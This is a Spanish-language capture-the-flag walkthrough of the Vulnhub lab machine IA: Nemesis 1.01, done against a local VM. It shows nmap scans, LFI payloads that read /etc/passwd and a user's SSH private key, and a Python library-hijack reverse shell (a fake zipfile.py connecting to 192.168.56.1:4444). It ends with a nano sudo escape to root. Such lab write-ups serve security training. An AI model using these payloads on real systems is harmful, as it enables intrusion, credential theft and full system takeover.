<p align="center">
  
</p>

# Introducción

Esta es una máquina boot2root de nivel medio que está disponible en Vulnhub. El objetivo de esta máquina es obtener una shell root y leer las 3 banderas. Además, se necesita un poco de habilidad en encriptación y programación. La maquina está disponible en: [https://www.vulnhub.com/entry/ia-nemesis-101,582/](https://www.vulnhub.com/entry/ia-nemesis-101,582/)

# CWE

- CWE-78: Improper Neutralization of Special Elements used in an OS Command
- CWE-310: Cryptographic Issues (4.6)
- CWE-732: Incorrect Permission Assignment for Critical Resource
- CWE-288: Authentication Bypass Using an Alternate Path or Channel

# Fase de reconocimiento

Aquí hacemos uso de Nmap como anteriormente lo hemos hecho en la fase de reconocimiento. 
<br>
Como la máquina PwnLab: init se encuentra corriendo en VirtualBox en modo de red "sólo anfitrión" y no sé su dirección IP, ejecuto este comando para buscarla:

```bash
nmap -sP 192.168.56.1/24
```
Una vez obtenemos su dirección IP (en mi caso es 192.168.56.7), procedemos a ver que puertos tiene abiertos:

```bash
nmap -p- -open -T5 -vvvv -n -oN puertosAbiertos 192.168.56.7
```

Obtenemos:

<p align="center">
  
</p>

Pero al hacer el escaneo con el siguiente comando obtenemos un puerto más:

```bash
nmap -p- 192.168.56.7 -vvvvv
```

<p align="center">
  
</p>

Tenemos 3 puertos abiertos. Cuando hacemos un escaneo más profundo de estos puertos con:

```bash
nmap -sCV -p80,52845,52846 192.168.56.7 -oN masInfo2
```

Obtenemos:

<p align="center">
  
</p>

Esto significa que tenemos 2 servicios web corriendo (2 páginas web), que son Apache y Nginx. La primera página (corriendo por el puerto 80) es la siguiente:

<p align="center">
  
</p>

Hay también una sección para registrarse e iniciar sesión:

<p align="center">
  
</p>

Y hay una nota del administrador, donde nos dá un usuario y contraseña:

<p align="center">
  
</p>

Cuando nos logueamos con estas credenciales llegamos a otra sección sin información relevante:

<p align="center">
  
</p>

<p align="center">
  
</p>

Al ingresar a la segunda página que está corriendo por el puerto 52845 encontramos una aplicación web de una sola página (Single-page application):

<p align="center">
  
</p>

También hay un formulario con 3 campos:

<p align="center">
  
</p>

Y al enviarlo dice que el mensaje ha sido guardado en un archivo. En breve intentaremos LFI en esta sección. Por ahora intentaremos búsqueda con diccionario de rutas para cada una de las páginas. Para la primera página sería:

<p align="center">
  
</p>

Al ingresar las rutas encontradas obtenemos:

<p align="center">
  
</p>

<p align="center">
  
</p>

Pero hasta el momento nada que nos pueda ayudar con nuestro objetivo. Al hacer lo mismo con la segunda página tenemos:

<p align="center">
  
</p>

Pero nuevamente sin éxito.
<br>
Volviendo con el formulario de la segunda página:

<p align="center">
  
</p> 

… y al analizar la petición que es enviada con la herramienta OWASP ZAP:

<p align="center">
  
</p> 

Notamos que solo es enviado el último campo del formulario (campo “message”). Intentaremos LFI insertando en este campo:

```bash
../../../../etc/passwd
```

<p align="center">
  
</p> 

Y walaa! Parece que logramos imprimir los usuarios del sistema:

<p align="center">
  
</p>

Ahora que sabemos que un usuario se llama **thanos** nos intentaremos loguear via SSH con este usuario:

```bash
ssh -p 52846 thanos@192.168.56.7
```

Pero no nos deja ingresar ninguna contraseña:

<p align="center">
  
</p>

Ahora intentaremos obtener la clave RSA privada del usuario **thanos** ingresando en el campo “message”:

```bash
../../../../home/thanos/.ssh/id_rsa
```

<p align="center">
  
</p>

Y la obtenemos. Posteriormente la guardamos en un archivo:

<p align="center">
  
</p>

<p align="center">
  
</p>

Ahora intentaremos conectarnos nuevamente vía SSH con el usuario **thanos** y la llave privada encontrada:

<p align="center">
  
</p>

```bash
ssh -p 52846 thanos@192.168.56.7 -i id_rsa_thanos
```

Con lo anterior logramos obtener una shell del usuario **thanos** y la primera bandera:

<p align="center">
  
</p>

Aqui vemos un programa de python llamado “backup.py” con este contenido:

<p align="center">
  
</p>

Notamos que este programa es ejecutado por un usuario con permisos elevados, y por el nombre de backup puede ser que se ejecute periódicamente. Además, este programa importa “os” y “zipfile”. Vamos a aprovechar esto para que en vez de importar la librería “zipfile” ejecute un exploit. Crearmos un archivo junto a “backup.py” llamado “zipfile.py” con lo siguiente:

```python
# rastating.github.io/privilege-escalation-via-python-library-hijacking/
import os
import pty
import socket

lhost = "192.168.56.1"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

<p align="center">
  
</p>

Este exploit nos retornará una shell del usuario que ejecuté backup.py por el puerto 4444. Al ponernos a la escucha por tal puerto:

```bash
nc -nvlp 4444
```

… y esperar aproximadamente un minuto logramos una shell del usuario **carlos**:

<p align="center">
  
</p>

Al igual que la segunda flag:

<p align="center">
  
</p>

Al ver el directorio de **carlos**:

<p align="center">
  
</p>

Encontramos una pista de cómo obtener una shell del usuario root:

<p align="center">
  
</p>

Y el archivo “encrypt.py”:

<p align="center">
  
</p>

En este último archivo tenemos la contraseña de **carlos** cifrada usando el algoritmo de cifrado afín (affine cipher). Usaremos una herramienta online para descifrar esta contraseña:

<p align="center">
  
</p>

Y la obtenemos:

<p align="center">
  
</p>

Al ver los comandos que puede ejecutar el usuario **carlos** como superusuario:

```bash
sudo -l
```

<p align="center">
  
</p>

Vemos que puede ejecutar **/bin/nano /opt/priv** como root:

<p align="center">
  
</p>

Al buscar como escalar privilegios aprovechando este comando (con programa nano en el archivo /opt/priv) podemos ver que en esta pagina [https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/) hay un exploit:

<p align="center">
  
</p>

Solo debemos ejecutar:

```bash
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

<p align="center">
  
</p>

De esta forma obtenemos una shell del usuario root y la bandera final:

<p align="center">
  
</p>

***Fuente:*** [https://www.youtube.com/watch?v=JqaXJkdQ3Po](https://www.youtube.com/watch?v=JqaXJkdQ3Po)
